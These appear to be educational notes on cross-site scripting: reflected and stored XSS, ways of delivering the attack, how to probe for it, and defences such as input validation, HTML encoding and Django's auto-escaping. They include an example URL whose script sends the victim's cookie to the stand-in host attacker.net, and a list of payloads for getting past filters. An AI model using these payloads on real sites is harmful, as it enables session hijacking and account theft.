

Cross-Site Scripting (XSS) is a kind of code injection attack in which an attacker inserts arbitrary Javascript code into the page of attacked web site that will be executed in visitor's web browser when he opens the page. The built-in code will be executed in the scope of the attacked domain, which is a bypass Same-origin policy.

This is a client-side attacking technique.

## Reflected XSS

The server that hosts the web aplication takes the parameter from the URL that is requested from the client (user) and simply render the parameter's content back to the user:

```
http://www.example.com/error.html?msg=<script>alert(1);</script>
```

And we say the site is vulnerable to XSS.

An attacker can exploit this vulnerability:



Elaborate: the crafted URL can be something like `http://www.example.com/error.html?msg=<script>var+i=new+Image;+i.src="http://attacker.net/"%2bdocument.cookie;</script>`. The attacker monitors for the traffic to his site `attacker.net` and steal the user's cookie on the `example.com` site.

Question: If the attacker can feed the crafted URL to the user, Why doesn’t he simply host a malicious script on `attacker.net` and feed the user a direct link to this script? This is due to the same-origin policy: on the user's browser, different domains don't interfere with each other. If there were something like `document.cookie` in the malicious script, it would return the user's cookie on attacker.net, not `example.com`.

## Stored XSS

Data submitted by user is stored in the application and then is displayed to other users without being filtered or sanitized appropriately.

2 steps:
- the attacker posts some crafted data containing malicious code that the application stores.
- a victim views a page containing the attacker’s data, and the malicious code is executed when the script is executed in the victim’s browser.

---

Trust relationships that XSS may exploit:
- Browsers trust JavaScript received from a website with the cookies issued by that website.
- If the application employs forms with autocomplete enabled, JavaScript issued by the application can capture any previously entered data that the user’s browser has stored in the autocomplete cache. By instantiating the relevant form, waiting for the browser to autocomplete its contents, and then querying the form field values, the script may be able to steal this data and transmit it to the attacker’s server.

---

Methods to deliver reflected attack:
- Send a forged email.
- The attacker creates his own website with content that induce victims to click.
- Hide the crafted URL in the ads.

---

Finding XSS vulnerabilities: submit a string such as `><script>alert(document.cookie)</script><` as every parameter to every page of the application, and monitor the responses for the appearance of the same string.

If cases are found where the attack string appears unmodified within the response, the application is almost certainly vulnerable to XSS.

To circumvent the application's defensive filters, some of these can be tried:
```
“><script >alert(document.cookie)</script >
“><ScRiPt>alert(document.cookie)</ScRiPt>
“%3e%3cscript%3ealert(document.cookie)%3c/script%3e
“><scr<script>ipt>alert(document.cookie)</scr</script>ipt>
%00“><script>alert(document.cookie)</script>
```

---

The root cause of XSS is that user-controllable data is copied into application responses without adequate validation and sanitization.

To eliminate XSS vulnerabilities:
- first step is to identify every instance withing the application where user-controllable data is being copied into responses.
- validate input:
  - data is not too long
  - data contains only a permitted set of characters
  - data matches a particular regular expression
- validate output: applications can perform HTML encoding of user-controllabel DOM data before insert it into the document:
  ```
  function sanitize(str) {
    var d = document.createElement('div');
    d.appendChild(document.createTextNode(str));
    return d.innerHTML;
  }
  ```
  
---

How does Django protect the site against major XSS attacks?:
- https://docs.djangoproject.com/en/2.1/topics/security/#cross-site-scripting-xss-protection
- https://docs.djangoproject.com/en/2.1/ref/templates/language/#automatic-html-escaping

